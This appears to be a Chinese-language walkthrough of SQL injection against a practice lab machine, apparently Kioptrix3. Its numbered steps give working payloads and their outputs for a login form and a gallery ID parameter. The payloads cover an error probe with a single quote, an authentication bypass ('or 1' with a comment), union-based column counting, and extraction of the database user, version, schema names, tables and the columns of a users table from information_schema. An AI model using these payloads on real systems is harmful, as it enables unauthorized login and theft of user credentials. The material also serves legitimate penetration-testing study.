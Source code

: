 <1> 单引号。

```plain
email=admin'&pass=1234&submit=Login&submitted=TRUE（报错：Query: SELECT * FROM users WHERE email='admin'' AND pass='356a192b7913b04c54574d18c28d46e6395428ab' AND active IS NULL

得出结论：sql 语句大概是 select * from users where email='' and pass='' and ?。
```

<2>尝试构建使得不报错。

```plain
#注释掉后面的。
email=admin' #（不报错）
```

<3>判断能否恶意修改。

```plain
email=admin' or '1'#  (登录成功)
得出结论：sql 语句能被恶意修改带入数据库执行
```

<4> 枚举，判断数据库查了几列数据用于后面 union 拿数据。

```plain
email=admin' union select 11,22,33,44,55,66,77,88 #
email=admin' union select 11,22,33,user(),55,66,77,88 #
(回显结果：
database() ch16，
user()  root@localhost)
@@version   5.1.54
```

<5>查库

```plain
email=admin' union select 11,22,33,group_concat(schema_name),55,66,77,88 from information_schema.schemata#
http://kioptrix3.com/gallery/gallery.php?id=666 union select 11,22,group_concat(schema_name),44,55,66 from information_schema.schemata#
（回显结果：information_schema,ch16,mysql）
```

<6>查表

```plain
email=admin' union select 11,22,33,group_concat(TABLE_NAME),55,66,77,88 from information_schema.TABLES where TABLE_SCHEMA=database()#
（回显结果：users）
```

<7>查 users 表的字段

```plain
?id=666 union select 11,22,group_concat(column_name),44,55,66 from information_schema.COLUMNS where TABLE_SCHEMA=database() and TABLE_NAME='gallarific_users' #
(回显结果：user_id,first_name,last_name,email,pass,user_level,active,registration_date)
```
